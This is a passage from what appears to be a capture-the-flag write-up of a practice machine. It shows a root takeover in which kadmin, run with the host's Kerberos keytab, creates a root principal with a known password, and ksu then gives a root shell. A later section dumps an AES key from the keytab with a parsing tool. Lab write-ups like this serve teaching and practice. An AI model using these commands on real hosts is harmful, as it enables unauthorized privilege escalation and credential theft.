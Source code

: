 

Now `ksu` will run `su` using Kerberos, so I'll enter the password I
just created for root:



    [admin@srv01 etc]$ ksu
    WARNING: Your password may be exposed if you enter it here and are logged 
             in remotely using an unsecure (non-encrypted) channel. 
    Kerberos password for root@REALCORP.HTB: : 
    Authenticated root@REALCORP.HTB
    Account root: authorization for root@REALCORP.HTB successful
    Changing uid to root (0)
    [root@srv01 etc]#



And grab `root.txt`:



    [root@srv01 ~]# cat root.txt
    5eac1728************************



The call to `kadmin` to then add a principal can be done in one line as
well:



    [admin@srv01 etc]$ kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB -q "add_principal -pw 0xdf root"
    Couldn't open log file /var/log/kadmind.log: Permission denied
    Authenticating as principal kadmin/admin@REALCORP.HTB with keytab /etc/krb5.keytab.
    No policy specified for root@REALCORP.HTB; defaulting to no policy
    Principal "root@REALCORP.HTB" created.



## Beyond Root - KeyTab File Format

### Parsers

I looked for ways to dump hashes or passwords from the keytab file, but
didn't make much progress. I found [this
tool](https://github.com/its-a-feature/KeytabParser), but it's in legacy
Python, and only gives one key:



    oxdf@parrot$ python2 KeytabParser.py krb5.keytab 
    17729
    {
        "host/srv01.realcorp.htb@REALCORP.HTB": {
            "keys": [
                {
                    "EncType": "aes256-cts-hmac-sha1-96", 
                    "Key": "lZEBVb0fGSXKirqW4PvbDzeheaTAImsSuYIL4V4SLgE=", 
                    "KeyLength": 32, 
                    "Time": "2020-12-08 17:15:30"
                }
            ]
        }
    }
